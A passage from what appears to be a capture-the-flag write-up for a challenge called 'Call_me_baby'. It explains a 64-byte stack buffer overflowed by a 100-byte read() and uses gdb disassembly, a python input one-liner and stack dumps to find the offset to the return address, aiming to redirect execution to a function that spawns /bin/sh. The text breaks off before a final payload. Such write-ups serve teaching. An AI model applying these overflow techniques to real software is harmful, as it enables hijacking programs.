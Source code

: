 We need to execture `execve("/bin/sh",(char **)0x0,(char **)0x0);` in call_me().  
  
The read() is expecting 100 bytes (`read(0,local_48,100);`), even tho the local_48 variable used to store the user input is only 64 bytes long (`undefined local_48 [64];`). This is vulnerable to a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow), so we'll exploit it to redirect the program towards the call_me() function.

# Dynamic analysis

In the stack, after the rbp (Register Base Pointer, which points to the base of the current stack) is stored a pointer to where the program will have to go next. For example, after running the vuln() function, the program will return to the main() function. So the next value after the rbp will be a pointer towards the main function. By overwriting this pointer, we can redirect the program execution.  
  
Let's find out how many bytes we need to write over. First, we'll disassemble the vuln() function and add a breakpoint after the read() function is called :

```gdb
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x00000000004011dd <+0>:	push   %rbp
   0x00000000004011de <+1>:	mov    %rsp,%rbp
   0x00000000004011e1 <+4>:	sub    $0x40,%rsp
   0x00000000004011e5 <+8>:	lea    0xe46(%rip),%rax        # 0x402032
   0x00000000004011ec <+15>:	mov    %rax,%rdi
   0x00000000004011ef <+18>:	call   0x401030 <puts@plt>
   0x00000000004011f4 <+23>:	lea    -0x40(%rbp),%rax
   0x00000000004011f8 <+27>:	mov    $0x64,%edx
   0x00000000004011fd <+32>:	mov    %rax,%rsi
   0x0000000000401200 <+35>:	mov    $0x0,%edi
   0x0000000000401205 <+40>:	call   0x401050 <read@plt>
   0x000000000040120a <+45>:	nop
   0x000000000040120b <+46>:	leave
   0x000000000040120c <+47>:	ret
End of assembler dump.
(gdb) break *vuln+45
Breakpoint 2 at 0x40120a
```

Now we'll input 64 characters to fill local_48, and inspect the register to see how many bytes we need to write over before reaching the rbp :

```gdb
(gdb) r <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*64)')
Starting program: /home/coucou/Documents/CTF_SSI_2024/Call_me_baby/call_me_baby <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*64)')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Write your love letter: 

Breakpoint 2, 0x000000000040120a in vuln ()
(gdb) x/24wx $rsp
0x7fffffffd9c0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffd9d0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffd9e0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffd9f0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffda00:	0xffffda0a	0x00007fff	0x00401230	0x00000000
0x7fffffffda10:	0xffffdb38	0x00007fff	0x00000000	0x00000001
(gdb) info register
rax            0x41                65
rbx            0x7fffffffdb38      140737488345912
rcx            0x7ffff7ec0a5d      140737352829533
rdx            0x64                100
rsi            0x7fffffffd9c0      140737488345536
rdi            0x0                 0
```